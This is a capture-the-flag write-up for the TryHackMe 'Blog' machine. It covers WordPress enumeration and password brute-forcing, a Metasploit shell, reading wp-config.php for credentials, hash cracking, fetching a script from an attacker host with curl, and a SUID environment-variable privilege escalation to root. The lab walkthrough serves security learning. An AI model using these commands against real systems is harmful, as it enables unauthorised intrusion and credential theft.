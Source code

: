 # Blog
## Writeup TryHackMe
### Medium Machine by NamelessOne

## Nmap Scan
![nmap scan](nmapblog.png)
The Nmap `nmap -sC -sV IP` has revealed four services
1. 22  - SSH 7.6p1
2. 80  - Apache 2.4.29 
3. 139 - Samba
4. 445 - Samba

### Host file
The instructions for the machine let us know we should add "blog.thm" to our hosts file and the ip address in my case it was
`echo -n "10.10.140.27    blog.thm" >> /etc/hosts`

## Service Enum
### SMB
An anonymous listing of SMB is revealed by 
`smbclient -L //blog.thm`

![smb listing](smblisting.png)

Immediately the "BillySMB" is interest to us and luckily is anonymously accessible

![smb files](smbget.png)

Although, all of these files seem to be rabbit holes.  Which explains the alice in wonderland reference.  The "Check-this.png" file however was a QR code which leads to a Billy Joel song.

### HTTP

The http site is a wordpress site!

![wordpress homepage](bloghomepage.png)

Which includes a lovely note from his mom.  An easy way to enumerate wordpress is wpscan.

#### Wpscan 
`wpscan --url http://blog.thm --enumerate u`

![wpscan](wpscanblog.png)

The most interesting details of our WPSCAN are as follows
- The wordpress version is 5.0, an outdated version
- Upload directory allows listing
- Wordpress users revealed
	- kwheel
	- bjoel

#### bruteforcing with Wpscan
`wpscan --url http://blog.thm --usernames kwheel --passwords path/to/passwords.txt threads 20`

![wpscan bruteforce](wordpressforce.png)

Creds 
- **kwheel:cutepie1**

It appears these creds dont work for ssh sadly...

![ssh attempt](sshlog.png)
 
After logging in to wordpress using the credentials revealed by wpscan 

![blog login](bloglogin.png)

It appears we are only allowed to create new posts with our editor permission, so we cannot edit the themes php code and engage a php rev shell.  We have to get more creative.

### Exploitation
#### Searchsploit
`searchsploit wordpress 5.0.0`

![searchsploit results](searchsploitblog.png)
We have some luck!!
I have tried the **python exploit** with no luck, I took the L and moved to metasploit

#### Metasploit
After setting the required options and running the exploit we have a shell!!

![metasploit setup](metasploitblog.png)

Lets type 
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

OK our shell is upgraded, lets start trying to up our privilege

### Privilege Escalation

At once, I try to access the wp-config.php file located in the wordpress home directroy.  It may contain credentials.

`cat /var/www/wordpress/wp-config.php`

![wordpress database details](wpconfigblog.png)

And voila!  The SQL details

**The loot**
![sql loot](sqlhashesblog.png)

#### hashcat
`hashcat -m 400 -a 0 hashes ~/path/to/wordlist.txt -O -w3`

![hashcat passwords](hashcatresults.png)

Although this already revealed something we already knew...moving on

#### SUID3NUM
A wonderful tool I've been utilizing is SUID3NUM which analyzes existing SUID and GUID binaries so operators can take the quickets path to root

##### Execution
to transfer
attacker machine:
`python3 -m http.server 80`

victim machine:
`curl http://attackerIP:80/suid3num.py -o s.py`

execute:
`python3 s.py`

![suid run](suidfinding.png)

#### /usr/sbin/checker custom SUID binary

Intial execution of binary:
`/usr/sbin/checker`

![checkerblog](checkerblog.png)

Well this is interesting, I guess we are not an admin but now its out job to prove we are
Lets do some analysis on the binary itself
- strings /usr/sbin/checker
- strace /usr/sbin/checker
- ltrace /usr/sbin/checker

![stringcheckerblog](stringscheckerblog.png)

Well we see a call to getenv...**ltrace** revealed something even more telling

![getenvltrace](ltracebaby.png)

Lets go! We see the call to getenv() although this time we see the environmetal variable its trying to access.

#### SUID Exploit with environmental variable 

Lets guess the variable admin should be set to Admin
`export admin=Admin`

And...this allowed us to get root!

![we got root](rootedblog.png)
